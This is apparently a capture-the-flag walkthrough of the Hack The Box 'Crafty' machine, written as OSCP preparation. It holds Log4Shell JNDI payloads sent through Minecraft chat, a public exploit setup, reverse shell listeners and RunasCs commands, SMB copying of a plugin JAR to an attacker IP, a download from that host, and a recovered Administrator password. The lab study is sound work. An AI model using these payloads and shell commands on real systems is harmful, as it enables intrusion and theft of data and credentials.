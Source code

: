 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔎 Recon

### 🔮 Port Scan
```bash
nmap -p- --min-rate 10000 -oA nmap/alltcp 10.10.11.249
nmap -p 80,25565 -sCV 10.10.11.249
```
- [HTTP](HTTP.md) (80): Microsoft IIS 10.0
- Minecraft (25565): Version 1.16.5 (Crafty Server)

### 🌐 Host Mapping
```bash
echo "10.10.11.249 crafty.htb play.crafty.htb" | sudo tee -a /etc/hosts
```

### 🚀 Web Enumeration
```bash
feroxbuster -u http://crafty.htb \
-w /opt/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```
> Found: /home, /coming-soon, /css, /img, /js

---

## 🗰 Minecraft Port 25565

### 🎮 Client: Minecraft Console Client (Free)
```bash
./MinecraftClient-20240415-263-linux-x64 0xdf
```
- Server: crafty.htb
- Version: 1.16.5

### 🔍 Log4Shell Detection
```bash
nc -lnvp 389
# Send in chat:
${jndi:ldap://10.10.14.6/test}
```

---

## 🛡️ Exploit Log4Shell

### ⚙️ Setup
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
pip install -r requirements.txt
tar xf jdk-8u20-linux-x64.tar.gz
```

### ✊ Fix Payload (Windows)
Edit `poc.py`: `String cmd="cmd.exe";`

### 🎣 Launch Exploit
```bash
nc -lnvp 443
python poc.py --userip 10.10.14.6 --webport 8000 --lport 443
```
Send via chat:
```text
${jndi:ldap://10.10.14.6:1389/a}
```
> Result: Shell as `svc_minecraft`

---

## 🛠️ Privilege Escalation to Administrator

### 📁 Check Plugin Directory
```powershell
cd 'C:\Users\svc_minecraft\server\plugins'
Get-FileHash playercounter-1.0-SNAPSHOT.jar
```

### 🚚 Exfiltrate JAR
```bash
smbserver.py share . -smb2support -username oxdf -password oxdf
```
```powershell
net use \\10.10.14.6\share /u:oxdf oxdf
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.6\share\
```

### 🔬 Reverse Engineering
- Tool: `jd-gui`
- Credential Found: `Administrator : s67u84zKq8IXw`

### 🔑 Validate with RunasCs
```powershell
wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
```

### 🚀 Shell as Admin
```powershell
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.6:443
```
> Reverse shell as `Administrator`

---

## 🧰 Flags

- **User**: `c:\Users\svc_minecraft\Desktop\user.txt`
- **Root**: `c:\Users\Administrator\Desktop\root.txt`

---

## 🔎 Beyond Root - web.config Analysis

- `index.html` ➔ redirected to `/home`
- `/home` ➔ rewritten to `index.html`
- `/coming-soon` ➔ rewritten to `coming-soon.html`
- Redirects all other non-`crafty.htb` hostnames back to `crafty.htb`

> IIS URL Rewriting explained the static behavior and redirection logic.